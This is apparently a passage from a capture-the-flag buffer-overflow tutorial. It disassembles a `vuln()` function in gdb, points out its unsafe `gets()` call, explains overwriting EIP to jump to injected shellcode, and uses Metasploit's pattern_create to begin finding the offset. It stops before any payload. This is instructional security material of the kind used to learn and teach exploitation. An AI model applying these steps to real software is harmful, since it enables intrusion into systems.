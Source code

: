 We can see that the `vuln()` function is at the address `0x8049050`. We can also disassemble this by calling the function itself.

```
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x080491b8 <+0>:     push   ebp
   0x080491b9 <+1>:     mov    ebp,esp
   0x080491bb <+3>:     push   ebx
   0x080491bc <+4>:     sub    esp,0x134
   0x080491c2 <+10>:    call   0x80490e0 <__x86.get_pc_thunk.bx>
   0x080491c7 <+15>:    add    ebx,0x2e2d
   0x080491cd <+21>:    mov    eax,DWORD PTR [ebx-0x4]
   0x080491d3 <+27>:    mov    eax,DWORD PTR [eax]
   0x080491d5 <+29>:    push   0x0
   0x080491d7 <+31>:    push   0x2
   0x080491d9 <+33>:    push   0x0
   0x080491db <+35>:    push   eax
   0x080491dc <+36>:    call   0x8049070 <setvbuf@plt>
   0x080491e1 <+41>:    add    esp,0x10
   0x080491e4 <+44>:    sub    esp,0xc
   0x080491e7 <+47>:    lea    eax,[ebx-0x1fec]
   0x080491ed <+53>:    push   eax
   0x080491ee <+54>:    call   0x8049060 <puts@plt>
   0x080491f3 <+59>:    add    esp,0x10
   0x080491f6 <+62>:    sub    esp,0xc
   0x080491f9 <+65>:    lea    eax,[ebp-0x134]
   0x080491ff <+71>:    push   eax
   0x08049200 <+72>:    call   0x8049040 <gets@plt>
   0x08049205 <+77>:    add    esp,0x10
   0x08049208 <+80>:    nop
   0x08049209 <+81>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x0804920c <+84>:    leave
   0x0804920d <+85>:    ret
End of assembler dump.
```

* We can see the `gets()` call towards the end of the code, at address `0x08049200`. Most of the other code we've explained already in our overview is consolidated here, in the form of memory addresses.

Our goal at this point is to determine the offset of the `EIP`, or the instruction pointer. If we can control this value, it'll let us point the next instruction execution to another address - and in our case, it can be malicious shellcode that we also push onto the stack.

There are a multitude of scripts or POCs out there that will aid in obtaining the actual offset to the EIP if it can be overwritten. An easy method that I've learned is to utilize Metasploit's `pattern_create` and `pattern_offset` utilities.

We can use `pattern_create` to create a string of a randomized values that we can use to overflow the buffer. This can be conjoined with `pattern_offset` to use the exact address that was populated from our randomized value on the EIP to determine what offset the EIP is at.

```
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000 > offset.txt

└─$ cat offset.txt                      
Aa0Aa1Aa2Aa3Aa4Aa5A[...snip...]g2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```
